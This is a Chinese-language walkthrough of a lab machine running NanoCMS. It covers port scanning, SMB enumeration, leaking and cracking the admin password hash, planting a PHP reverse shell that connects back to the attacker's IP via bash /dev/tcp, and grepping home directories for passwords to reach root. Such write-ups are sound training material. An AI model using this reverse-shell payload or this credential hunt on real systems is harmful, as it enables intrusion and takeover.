[TOC]

# 信息收集

```
arp-scan -l
```

得到ip：192.168.174.170

```
nmap -p- --min-rate 10000 192.168.174.170 | awk -F '/' '{print$1}' | tr '\n' ','
```



直接复制这些端口号，分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



信息有点多，大概知道可以利用smaba协议，外接mysql端口，pop3邮件协议以及80端口，从这些方面入手

## 漏洞扫描



这个就更多，简单总结一下，80端口可能存在sql注入漏洞，枚举了/info.php,/phpmyadmin,/squirrelmail,/icons,/inc等目录，其他端口就没什么信息

## UDP扫描



没有什么可利用的端口

## 下一步思路

- 先检查smaba协议是否可以利用，比如用命令

  ```
  smbmap -a 192.168.174.170
  enum4linux -H 192.168.174.170
  smbclient -L //192.168.174.170
  ```

- 由于我们没有账号密码，pop3协议暂不考虑，或者仅登录aonymous进行尝试
- 80端口就先枚举目录，用gobuster和dirb两种工具，再用Whatweb看看是什么服务以及是否用了什么CMS框架

# 80端口分析



默认页面，点击blog发现



也就是说这个网页用的是nanocms

- 用searchsploit或者goole搜索



找到一个远程命令执行漏洞，但是我们没有账号密码，无法利用

尝试了很长时间没头绪，参考大佬的wp才发现直接在goole搜索nanocms，会有一个



不过这些都是比较老旧的数据库，可能因为这个靶机有点时间了，总之得到存在信息泄露，路劲是/data/pagesdata.txt



得到用户admin以及密码的hash值，解密一下就是shanno

# 反弹shell



尝试登录



成功进入，发现我们可以增加新页面，也可以直接修改页面，奉劝不要新加哈，我新加页面直接崩了



```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.174.128/4444'")?>
```



在本地开启监听后直接连接



# 提权

拿到shell后进行一系列的信息收集没有结果，文件太多，参考一下他人的wp

```
grep -r -i pass /home/* 2>/dev/null
```

意思是直接筛选了/home目录下的所有包含‘pass’的文件（-i无视大小写）



在末尾发现了Root password的字样，进入该文件查看



发现密码50$cent

- 直接提权（不知道为什么sudo -i不行，su可以）

